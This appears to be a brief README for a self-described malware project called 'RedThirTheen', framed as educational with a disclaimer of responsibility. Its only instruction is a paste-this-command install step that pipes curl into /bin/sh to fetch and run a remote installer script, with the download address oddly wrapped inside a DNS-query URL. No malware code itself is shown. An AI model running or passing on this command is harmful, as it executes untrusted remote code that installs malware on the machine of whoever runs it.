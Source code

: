 # RedThirTheen

Simple Malware Development for educational purposes, decline any responsibility for misuses of this tools

To install the service run the following command to setup the server.

> /bin/sh -c "$(curl -fsSL https://cloudflare-dns.com/dns-query?name=https://raw.githubusercontent.com/th333boo/r3dth1rth33n/master/installer.sh)"
